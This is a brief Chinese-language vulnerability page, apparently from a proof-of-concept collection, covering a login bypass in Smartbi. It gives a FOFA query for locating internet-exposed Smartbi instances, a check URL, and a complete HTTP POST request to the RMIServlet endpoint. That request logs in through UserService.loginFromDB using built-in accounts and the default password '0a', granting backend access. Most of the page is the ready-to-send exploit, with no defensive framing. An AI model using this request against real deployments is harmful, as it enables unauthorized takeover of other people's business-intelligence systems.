



# Smartbi 内置用户登陆绕过漏洞
## 资产搜索
fofa app="Smartbi"  

## POC
### 验证漏洞是否存在
`http://your-ip/smartbi/vision/RMIServlet`  

### 利用
```h
POST /smartbi/vision/RMIServlet HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded
 
className=UserService&methodName=loginFromDB&params=["system","0a"]
``` 
- className: 指定UserService类名
- methodName: 该类调用的方法 loginFromDB
- params: 第一个参数是内置的用户名（public、service、system）,第二个参数是默认账号的密码（默认：0a）

发送请求后再次刷新页面，即可成功登陆后台